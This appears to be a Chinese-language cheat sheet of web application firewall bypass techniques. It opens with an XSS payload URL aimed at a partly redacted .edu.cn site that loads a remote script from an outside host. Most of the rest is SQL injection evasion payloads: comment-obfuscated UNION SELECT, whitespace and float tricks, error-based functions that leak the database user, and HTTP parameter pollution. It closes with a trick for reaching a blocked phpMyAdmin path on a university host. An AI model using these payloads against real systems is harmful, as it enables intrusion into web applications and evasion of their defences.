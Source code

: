 最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

```
`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能,因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

**hpp 方式**

HPP 是指 HTTP 参数污染.形如以下形式:`?id=1&id=2&id=3` 的形式,此种形式在获取 id 值的时候不同的 web 技术获取的值是不一样的.
假设提交的参数即为:
```
id=1&id=2&id=3

Asp.net + iis:id=1,2,3
Asp + iis:id=1,2,3
Php + apache:id=3

形如 index.php?a=[whitelist]&a=select 1 union select 2
```

**路径限制绕过**

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过.

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过
